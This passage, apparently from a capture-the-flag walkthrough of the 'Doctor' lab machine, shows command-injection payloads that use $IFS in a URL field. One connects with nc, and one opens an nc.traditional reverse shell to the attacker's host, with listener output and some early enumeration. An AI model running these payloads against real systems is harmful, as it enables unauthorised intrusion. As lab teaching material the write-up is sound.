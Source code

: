If I start with just connecting with `nc` (not a shell), it works with a
payload of `http://10.10.14.6/$(nc$IFS'10.10.14.6'$IFS'443')`:

    
    
    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40418.
    

Various reverse shells didn’t work. I tried `-e /bin/bash` on `nc`, as well as
Bash reverse shells without success. Eventually I tried `nc.traditional`
(which is like `nc`, but will have the `-e` flag), and it worked:

    
    
    http://10.10.14.6/$(nc.traditional$IFS-e$IFS'/bin/bash'$IFS'10.10.14.6'$IFS'443')
    

I got a shell:

    
    
    root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:40450.
    id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    

## Shell as shaun

### Enumeration

#### Manual

As web, I can see one other user on the box, shaun:

    
    
    web@doctor:/home$ ls
    shaun  web
    

`user.txt` is in shaun’s home directory, but I can’t read it yet.

web is also a member of the adm group:

    
    
    web@doctor:/home/shaun$ id
    uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
    

This is interesting because it means that web can read log files. I did a
quick `grep` through all the logs for the string `passw` (which should get
both “passwd” and “password”):
